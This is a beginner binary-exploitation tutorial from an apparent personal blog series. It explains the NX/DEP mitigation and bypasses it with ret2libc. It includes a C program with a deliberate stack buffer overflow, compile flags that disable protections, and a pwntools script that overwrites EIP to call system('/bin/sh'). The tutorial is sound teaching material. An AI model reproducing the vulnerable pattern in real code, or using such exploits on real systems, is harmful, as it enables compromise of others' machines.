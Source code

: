 ```yaml
---
title: "Pwn 0x02: NX Bypass"
author: "Signore"
date: 2022-08-22
summary: "Stack is not allowing code execution? Let's bypass it"
description: ""
categories: [""]
tags: ["pwn", "buffer overflow", "ret2libc"]
series: ["Binary Exploitation Adventures"]
keywords: ["pwn", "binary", "memory", "x32", "x64", "gdb", "memory corruption", "binary exploitation", "exploit development", "ret2libc", "return2libc", "ret2system"]
ShowToc: true
cover:
  image: "images/cover-binexp-02.png"
  caption: "cover"

---
```


In this post we are going to learn an exploit mitigation technique: what it is and how to bypass it.

New to the series? check out my previous posts [here](/blog/series/binary-exploitation-adventures).

## No Execute

Last time, we put shellcode on the stack and called it to get code execution. <br>
In modern binaries, usually what happens is that the stack is not executable, means we can put something on the stack but it will only be considered a piece of data by the program and not some cpu instruction. This technique is called **NX** (No eXecute) or **DEP** (Data Execution Prevention).

Although the data on the stack is not executable, making a function call and passing required/desired arguments is still allowed. We're going to make use of this fact.

When we are writing code for a program, we don't write code for `print` and such functions. They are said to be built-ins. When we compile the program, the compiler links the program to a library (shared object) in which it would be able to find definitions of those functions during execution. <br>
Such programs are termed as Dynamically Linked which we mostly deal with because this process saves the coder a lot of time and effort, while the opposite are Statically Linked programs which we won't talk about for now.

Most of the C programs - whether it's x86 or x64 - rely on **libc**, the default C library.
<details><summary>We can see the shared objects (libraries) being used by a program, with the <code>ldd</code> command</summary>

{{< terminal title="Terminal" >}}
![](img00.png)
{{< /terminal >}}
</details><br>

Since during the program execution, the program is making use of library functions, so the library (libc) is mapped in memory. We can abuse this by finding memory addresses and making calls to other functions present in the library as per our need (or as per desire ;)

`print`, `write`, `system`, `exit`, etc are some of the functions present in the libc out of which, for now, we are most interested in `system`.

### Setup

Using the code from previous exercise:
{{< terminal title="vulnerable.c" >}}
```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```
{{< /terminal >}}

Compile with the command:
{{< terminal title="Terminal" >}}
```shell
gcc -m32 -fno-stack-protector vulnerable.c -o vulnerable
```
{{< /terminal >}}

Notice that we are not using the `-z execstack` flag anymore, which makes the stack executable.

Our program has following protections:
{{< terminal title="Terminal" >}}
![](img01.png)
{{< /terminal >}}

Before proceeding any further, remember to disable ASLR.

## Exploitation

We find the offset of EIP to be 516. You know how, right?

We want to execute `system("/bin/sh")` for which we are going to overwrite the EIP with the address of the `system` function, and then we'll give the return address which can be anything (e.g JUNK) but we will keep it to be the address of the `exit` function so that our program terminates nicely. Lastly, we will give the function arguments which, in present case, would be the address of the `/bin/sh` string. <br>
Remember stack alignment? revise [here](/blog/posts/pwn-0x01-buffer-overflow/#the-stack)

<details><summary>With the <code>vmmap</code> command in gdb, we can confirm that the libc/certain sections of libc are loaded into the program</summary>

{{< terminal title="Terminal" >}}
![](img02.png)
{{< /terminal >}}
</details><br>

Let's get our required memory addresses with gdb:
{{< terminal title="Terminal" >}}
![](img03.png)
{{< /terminal >}}

Now that we have all we needed, let's construct our exploit:
{{< terminal title="exploit.py" >}}
```py
from pwn import *

exe = "./vulnerable"
elf = context.binary = ELF(exe,checksec=False)

system_addr = 0xf7dff040
exit_addr = 0xf7df1990
binsh_addr = 0xf7f46338

padding = "A"*516

payload = flat(padding, system_addr, exit_addr, binsh_addr)

#write("payload",payload)
io = process(exe)
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

Let's run the exploit:
{{< terminal title="Terminal" >}}
![](img04.png)
{{< /terminal >}}
And.. Yea! we got our shell :fire:
